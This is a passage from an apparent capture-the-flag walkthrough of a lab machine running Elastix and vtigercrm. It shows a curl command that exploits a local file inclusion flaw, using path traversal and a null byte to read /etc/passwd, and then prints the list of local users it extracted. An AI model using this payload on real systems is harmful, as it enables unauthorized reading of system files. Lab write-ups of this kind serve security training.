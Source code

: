 ![Elastix dashboard page](elastix-dashboard-page.png)

They worked!

I searched for functionalities that would give me RCE, but I found none. Back to
known vulnerabilities, none of them are affecting Elastix neither...

## Foothold (SSH)

### LFI

Let's use our LFI to get a list of Beep's local users:

```sh
❯ curl -s -k "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action" | grep ".*sh$" | cut -d ":" -f "1" | sort
```

```
asterisk
cyrus
fanis
mysql
root
spamfilter
```
